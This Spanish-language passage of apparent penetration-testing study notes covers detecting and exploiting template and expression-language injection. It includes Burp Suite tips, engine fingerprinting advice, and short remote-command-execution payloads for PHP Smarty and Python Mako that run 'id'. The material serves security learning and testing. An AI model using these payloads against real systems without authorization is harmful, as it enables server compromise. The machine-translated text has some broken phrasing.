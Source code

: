 La mejor expresión para inyectar:

```
${5*11111}
# in this case, you would look For the value '55555' in the response of your request
```

> Se requiere una confirmación adicional para asegurarse de que el código se ejecuta en el lado del servidor y tiene acceso a datos confidenciales

Con Burp Suite PRO, debería obtener una extensión llamada **J2EE Scan** que agrega automáticamente pruebas para la inyección de lenguaje de expresión

Otra idea podría ser usar **Burp Intruder** para probar varias cargas útiles de ese tipo, ya que es probable que mientras,

Por ejemplo:

```
#{5*11111} # will work
%{5*11111} # may not
```

Puede usar el siguiente diagrama para ayudar a generar perfiles de este tipo de vuln, ya sea una plantilla o una inyección de lenguaje de expresión

![Texto alternativo](https://johnermac.github.io/assets/images/posts/ewptx/61.png)

#### Para identificar mejor la tecnología <a href="#to-better-identify-the-technology" id="to-better-identify-the-technology"></a>

El primer paso después de observar anomalías relacionadas con los cálculos o el manejo inusual de expresiones entre llaves debe ser tratar de identificar la tecnología subyacente

* Observe cuál es la tecnología genérica de la aplicación. Si es Java (u ver que se usa .jsp extensiones), entonces puede sospechar que es un lenguaje de expresión / OGNL
* Utilice el diagrama anterior, ya que contiene el comportamiento popular de los motores de plantillas al manejar expresiones
* Intente inyectar llaves sin cerrar (tenga cuidado, ya que existe la posibilidad de que deshabilite permanentemente la página web atacada); Esto podría provocar un error detallado al revelar la tecnología subyacente
* Observe otros errores detallados para los nombres de tecnología

#### Explotación de la inyección de plantillas <a href="#exploiting-template-injection" id="exploiting-template-injection"></a>

PHP Smarty:

```
# The RCE payload can be as simple as the one-liner:
{php}echo 'id';{/php}
```

Pitón Mako:

```
<%
  import os
  x=os.popen('id').read()
%>
${x}
```
